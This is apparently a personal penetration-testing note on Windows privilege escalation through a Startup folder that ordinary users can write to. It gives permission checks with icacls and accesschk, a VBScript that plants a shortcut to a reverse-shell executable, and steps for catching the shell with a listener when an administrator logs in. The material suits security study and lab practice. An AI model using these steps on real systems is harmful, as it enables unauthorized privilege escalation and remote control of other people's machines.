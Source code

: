 | MASK | PERMISSIONS            |     |
| ---- | ---------------------- | --- |
| F    | Full access            |     |
| M    | Modify access          |     |
| RX   | Rad and execute access |     |
| R    | Read-only access       |     |
| W    | Write-only access      |     |

**Detection**  

 Open command prompt and type: 
 
```batch - windows 
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

From the output notice that the “BUILTIN\Users” group has full access ‘(F)’ to the directory.


**Exploitation**

[[1._Reverse Shells (WIN)#MSFVenom]]  

Copy the generated file, x.exe, to the Windows target.

Place x.exe in `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup`.  

Logoff.  

Login with the administrator account credentials.

Wait for a session to be created, it may take a few seconds.  


#### Malicious file
CreateShortcut.vbs

```batch - windows
Set oWS = WScript.CreateObject("WScript.Shell")

sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"

Set oLink = oWS.CreateShortcut(sLinkFile)

oLink.TargetPath = "C:\PrivEsc\reverse.exe"

oLink.Save
```

1. Use accesschk.exe to check permissions on the StartUp directory:

```batch - windows
.\accesschk64.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```

2. Note that the BUILTIN\Users group has write access to this directory.

3. Create a file CreateShortcut.vbs with the VBScript provided in a previous slide. Change file paths if necessary.

4. Run the script using cscript:

```batch - windows
cscript CreateShortcut.vbs
```

5. Start a listener on Kali, then log in as the admin user to trigger the exploit.

![[1._rlwrap]]